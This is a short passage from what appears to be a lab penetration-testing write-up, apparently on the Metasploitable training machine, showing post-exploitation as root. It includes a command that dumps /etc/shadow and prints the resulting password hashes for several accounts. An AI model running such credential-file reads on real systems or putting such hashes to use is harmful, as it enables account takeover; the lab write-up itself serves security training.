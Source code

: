 ![Privileged "root" session](assets/image-20230424152709148.png)

- 📌 This exploit gives back direct `root` access.

```bash
# Dump hashes
cat /etc/shadow
```

```bash
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
```